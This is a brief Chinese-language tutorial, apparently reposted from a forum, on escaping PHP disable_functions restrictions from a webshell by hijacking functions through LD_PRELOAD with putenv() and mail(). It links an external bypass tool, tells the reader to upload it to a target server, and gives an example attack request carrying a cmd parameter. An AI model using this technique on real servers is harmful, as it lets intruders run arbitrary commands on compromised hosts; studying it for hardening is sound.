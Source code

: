 # mail

> 原文：[https://www.zhihuifly.com/t/topic/3463](https://www.zhihuifly.com/t/topic/3463)

## Mail

**前提条件**

linux环境
putenv()、mail()可用

**基本原理**

当 disable_functions 禁用了命令执行函数，webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数，来突破 disable_functions 限制执行操作系统命令

**利用步骤**

> https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD

*   下载bypass_disablefunc.php和bypass_disablefunc_x64.so,并上传到目标服务器
*   执行命令

```
http://www.0-sec.org/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so 
```

cmd: 执行的命令
outpath: 读写权限目录
sopath: so文件的绝对路径